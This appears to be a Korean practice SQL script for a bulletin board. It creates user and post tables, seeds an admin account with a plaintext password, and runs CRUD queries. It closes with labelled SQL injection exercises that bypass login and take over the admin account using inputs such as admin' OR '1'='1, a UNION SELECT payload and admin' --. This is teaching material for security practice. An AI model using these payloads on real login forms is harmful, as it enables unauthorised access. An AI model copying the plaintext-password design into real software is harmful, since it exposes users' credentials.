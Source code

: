 -- 📌 1️⃣ 데이터베이스 및 테이블 생성
CREATE DATABASE bulletin_board;
USE bulletin_board;

-- 📌 2️⃣ users 테이블 (회원 관리)
CREATE TABLE users (
    id INT AUTO_INCREMENT PRIMARY KEY,
    username VARCHAR(50) NOT NULL UNIQUE,
    email VARCHAR(100) NOT NULL UNIQUE,
    password VARCHAR(255) NOT NULL,
    is_admin TINYINT(1) NOT NULL DEFAULT 0,
    created_at TIMESTAMP DEFAULT CURRENT_TIMESTAMP
);

-- 📌 3️⃣ posts 테이블 (게시판)
CREATE TABLE posts (
    id INT AUTO_INCREMENT PRIMARY KEY,
    user_id INT NOT NULL,
    title VARCHAR(255) NOT NULL,
    content TEXT NOT NULL,
    created_at TIMESTAMP DEFAULT CURRENT_TIMESTAMP,
    updated_at TIMESTAMP DEFAULT CURRENT_TIMESTAMP ON UPDATE CURRENT_TIMESTAMP,
    FOREIGN KEY (user_id) REFERENCES users(id) ON DELETE CASCADE
);

-- 📌 4️⃣ Admin 계정 추가
INSERT INTO users (username, email, password, is_admin) 
VALUES ('admin', 'admin@example.com', 'admin123', 1);

-- 📌 5️⃣ 일반 사용자 계정 추가
INSERT INTO users (username, email, password, is_admin) 
VALUES ('testuser', 'test@example.com', 'password123', 0);

-- 📌 6️⃣ 게시글 작성
INSERT INTO posts (user_id, title, content) 
VALUES (1, '테스트 제목', '테스트 내용');

-- 📌 7️⃣ 게시글 목록 조회
SELECT posts.id, posts.title, users.username, posts.created_at 
FROM posts 
JOIN users ON posts.user_id = users.id 
ORDER BY posts.id DESC;

-- 📌 8️⃣ 게시글 상세 조회
SELECT posts.*, users.username 
FROM posts 
JOIN users ON posts.user_id = users.id 
WHERE posts.id = 1;

-- 📌 9️⃣ 게시글 수정
UPDATE posts 
SET title = '수정된 제목', content = '수정된 내용' 
WHERE id = 1;

-- 📌 🔟 게시글 삭제
DELETE FROM posts WHERE id = 1;

-- 📌 1️⃣1️⃣ SQL 인젝션 실습 (비밀번호 없이 로그인)
-- 아이디 입력: admin' OR '1'='1
-- SQL 변형:
SELECT * FROM users WHERE username = 'admin' OR '1'='1' AND password = '아무거나';

-- 📌 1️⃣2️⃣ SQL 인젝션 (관리자 계정 탈취)
-- 아이디 입력: ' UNION SELECT 1, 'admin', 'adminpass', 1 --
-- SQL 변형:
SELECT * FROM users WHERE username = '' UNION SELECT 1, 'admin', 'adminpass', 1 --' AND password = '아무거나';

-- 📌 1️⃣3️⃣ SQL 인젝션 (비밀번호 체크 무력화)
-- 아이디 입력: admin' --
-- SQL 변형:
SELECT * FROM users WHERE username = 'admin' --' AND password = '아무거나';
